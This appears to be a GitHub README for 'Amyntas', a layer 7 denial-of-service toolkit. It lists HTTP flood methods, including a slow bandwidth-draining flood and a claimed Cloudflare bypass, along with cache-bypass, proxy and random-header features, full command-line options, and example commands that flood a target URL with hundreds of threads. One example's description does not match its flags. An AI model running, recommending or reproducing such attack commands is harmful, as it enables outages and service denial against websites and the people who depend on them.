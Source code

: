 ## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know! <bn>
The webdrivers used for the <strong>Browser Emulation</strong> attack are Windows 64 bit executables, replace them if you need to!!

--- 

### About
Amyntas is a layer 7 DoS toolkit, with a wide variety of attack methods and the capabilities to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- GET (simple GET flood)
- HEAD (simple HEAD flood)
- POST (simple POST flood)
- FAST (a <strong>GET /</strong> flood)
- GHP/GETHEADPOST (a flood which randomly chooses GET, HEAD or POST as request method)
- LEECH (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- MIX (a method which randomly chooses HTTP request methods)
- BYPASS (bypasses cloudflare)

---

### Features
1. IPv6 support
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxies coming soon)

---

### Known bugs/problems
1. Attack does not end when you want it to end

---

### To Do list
1. More methods
2. More documentation

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://pornhub.com)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its dynamic
-ref REFERER, --referer REFERER        Referer to use when attacking, else its dynamic
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info for devs
-bc, --bypass-cache                    Bypass the cache of the site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 40
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

---

### Requirements

```
requests
argparse
colorama
threading
netaddr
```